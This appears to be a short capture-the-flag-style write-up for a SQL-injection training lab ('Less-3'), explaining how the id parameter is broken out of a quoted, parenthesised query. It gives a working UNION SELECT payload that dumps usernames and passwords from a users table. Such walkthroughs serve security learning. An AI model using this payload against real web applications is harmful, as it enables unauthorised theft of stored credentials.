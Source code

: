 Hello guys,

This is the write-up for Less-3 'GET - Error based - Single quotes with twist'.

So getting started,

using a single quote and comment after the numeric parameter for id
``` ?id = 1' -- -```,
an error is returned.
``` You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1 ```

so the input after id is not going into a simple ```... WHERE id = '<input>' ...;```

So trying out an alternate possibility where the input might be going into a ```... WHERE id = ('<input>')...;```

We can end the numeric paramenter after id with a ```')``` and then use UNION to execute another query which will help us.

Using ``` [URL]/?id=-1') UNION SELECT 1, group_concat(username,0x7c,password),3 FROM users -- - ```,

we get the login dump printed on the site.


